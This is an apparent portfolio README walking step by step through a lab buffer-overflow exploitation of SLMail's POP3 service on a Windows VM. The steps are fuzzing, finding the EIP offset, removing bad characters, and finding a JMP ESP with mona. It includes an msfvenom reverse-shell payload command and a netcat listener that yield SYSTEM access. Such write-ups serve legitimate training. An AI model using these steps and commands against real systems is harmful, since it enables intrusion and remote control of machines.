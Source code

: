 # Windows Buffer Overflow

## Objective:
This project is centered on understanding and executing a Windows buffer overflow. By targeting a specific Windows virtual machine, the project aimed to shed light on the intricacies of buffer overflow vulnerabilities in a Windows environment, emphasizing the steps and tools necessary to exploit such flaws. The key objectives of the project are detailed below:
- **Manual Buffer Overflow:** Engaging in a step-by-step process to perform a buffer overflow against a Windows target, understanding the specific conditions and elements that lead to successful exploitation.
- **Immunity Debugger Integration:** Leveraging the Immunity Debugger to trace and understand the buffer overflow process in real time. This involved attaching specific processes to the debugger and observing program behavior during exploitation attempts.
- **Character Testing and EIP Control:** Using a fuzzer script to determine the exact point of EIP overwrite, followed by a systematic approach to identifying and removing bad characters to ensure the crafted payload's effectiveness.
- **Payload Crafting and Exploitation:** Utilizing MSFvenom to generate a specific payload, followed by setting breakpoints and adjusting scripts to gain control over the program's execution. Successfully exploiting the vulnerability led to obtaining a reverse shell on the target machine.

## Walkthrough:
- Initialized the BOF machine, accessed the command prompt as an administrator, and ran “slmgr /rearm” and “ipconfig” to determine the machine's IP address as “10.0.2.10”.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF1.png" alt="">
</p>


- Installed “12f1ab027e5374587e7e998c00682c5d-SLMail55_4433.exe” on the Windows VM, rebooted it, and created a desktop shortcut for “SLmail.cpl”.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF2.png" alt="">
</p>


- Opened both “SLmail.cpl” & “Immunity debugger” with administrative rights.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF3.png" alt="">
</p>


- In “Immunity debugger”, attached the “SLmail.exe” file and ensured it's actively running.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF4-1.png" alt="">
</p>
<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF4-2.png" alt="">
</p>

- On my Kali machine, downloaded the fuzzer script labeled “fuzzerScript.py” and stored it in a “BOF” folder on my desktop.

<p align="center">
  <img src="" alt="">
</p>


- In the same folder, created and edited a file named “fuzzy.py”. Line 13 requires the target IP address and port number.

<p align="center">
  <img src="" alt="">
</p>


- Conducted an nmap scan on the target VM to confirm open ports and noted the active “pop3” protocol.

<p align="center">
  <img src="" alt="">
</p>


- Updated “fuzzy.py” with the target IP address and port, then saved changes.

<p align="center">
  <img src="" alt="">
</p>


- Navigated to the BOF directory and executed the “fuzzy.py” script using the “python2 fuzzy.py” command.

<p align="center">
  <img src="" alt="">
</p>


- Observed the EIP update to “41414141” in Immunity debugger.

<p align="center">
  <img src="" alt="">
</p>


- Generated an MSF pattern of 3000 bytes using the “msf-pattern_create -l 3000” command to pinpoint control flow locations.

<p align="center">
  <img src="" alt="">
</p>


- Updated the “fuzzy.py” script's buffer with the generated MSF pattern and removed unnecessary loops.

<p align="center">
  <img src="" alt="">
</p>


- Reset SLmail.cpl and the Immunity debugger, re-executed the “fuzzy.py” script, and noted the updated EIP value in Immunity debugger.

<p align="center">
  <img src="" alt="">
</p>


- Determined the exact memory offset using the “msf-pattern_offset -l 3000 -q 39694438” command.

<p align="center">
  <img src="" alt="">
</p>


- Validated the offset by adjusting the buffer in “fuzzy.py” and observing the Immunity debugger's EIP value.

<p align="center">
  <img src="" alt="">
</p>


- Incorporated a list of potential bad characters into the “fuzzy.py” buffer to refine the exploit.

<p align="center">
  <img src="" alt="">
</p>


- Re-executed the adjusted “fuzzy.py” script and followed the ESP in dump within Immunity debugger to identify and remove any bad characters.

<p align="center">
  <img src="" alt="">
</p>


- Identified certain characters as "bad" and removed them from the "fuzzy.py" buffer.

<p align="center">
  <img src="" alt="">
</p>


- Re-executed the "fuzzy.py" script with the refined buffer and monitored the outcome in Immunity debugger.

<p align="center">
  <img src="" alt="">
</p>


- Searched for mona modules using the “!mona modules” command and identified a suitable dll with “!mona find -s "\xff\xe4" -m SLMFC.DLL”.

<p align="center">
  <img src="" alt="">
</p>


- Crafted a shell code using the “msfvenom -p windows/shell_reverse_tcp LPORT=4444 LHOST=10.0.2.6 -f c -b "\x00\x0a\x0d"” command.

<p align="center">
  <img src="" alt="">
</p>


- Integrated the shell code into “fuzzy.py” and adjusted the buffer accordingly.

<p align="center">
  <img src="" alt="">
</p>


- Established a netcat listener on the Kali machine using “nc -lvp 4444”.

<p align="center">
  <img src="" alt="">
</p>


- Restarted SLmail, ran the “fuzzy.py” script, and achieved system access with highest-level permissions as confirmed by the “whoami” command.

<p align="center">
  <img src="" alt="">
</p>

